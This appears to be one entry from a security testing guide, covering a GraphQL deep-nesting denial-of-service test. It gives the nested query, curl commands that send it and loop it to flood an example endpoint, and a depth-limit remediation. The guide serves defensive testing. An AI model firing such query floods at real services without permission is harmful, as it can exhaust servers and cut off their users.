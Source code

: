 ### **Test 3: GraphQL Deep Query DoS**

**Objective**: Test for resource exhaustion via nested queries.

**Steps**:
1. **Craft Deep Query**:
   - Create:
     ```graphql
     query {
       users {
         posts {
           comments {
             author {
               posts {
                 comments {
                   id
                 }
               }
             }
           }
         }
       }
     }
     ```
2. **Send Query with cURL**:
   - Command:
     ```bash
     curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer abc123" --data '{"query": "query { users { posts { comments { author { posts { comments { id } } } } } } }"}' http://example.com/graphql
     ```
3. **Flood Server**:
   - Command:
     ```bash
     for i in {1..10}; do curl -X POST -H "Content-Type: application/json" --data '{"query": "query { users { posts { comments { author { posts { id } } } } } }"}' http://example.com/graphql; done
     ```
4. **Analyze Response**:
   - Check for timeouts, HTTP 429, or server errors.
   - Expected secure response: Query rejected.
5. **Save Results**:
   - Save responses to file.

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
[Large JSON response]
```

**Remediation**:
```javascript
const depthLimit = require('graphql-depth-limit');
const server = new ApolloServer({ schema, validationRules: [depthLimit(5)] });
```
